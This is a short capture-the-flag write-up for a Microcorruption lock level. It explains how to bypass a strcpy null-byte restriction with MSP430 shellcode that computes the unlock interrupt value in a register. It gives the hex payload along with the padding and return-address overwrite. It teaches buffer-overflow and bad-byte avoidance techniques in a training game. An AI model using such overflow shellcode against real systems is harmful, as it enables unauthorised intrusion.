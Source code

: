 ## Challenge Overview
```
OVERVIEW

    - Lockitall developers  have rewritten the code  to conform to the
      internal secure development process.
    - This lock is attached the the LockIT Pro HSM-2.
```

## Solution
This challenge is very similar to Whitehorse expect for the `strcpy` command which will end the string at `0x00` which means we cant use.
```
445c:  3012 7e00      push	#0x7e
4460:  b012 4c45      call	#0x454c <INT>
```

Instead we can create the value and put it in r15:
```
mov #0x181, r15
sub #0x102, r15
push r15
call #0x454c
---
3f4081013f8002010f12b0124c45
```

adding the padding and srp overwrite:
```
3f4081013f8002010f12b0124c454141ee43
```

This works!

Nice intro to bad bytes.
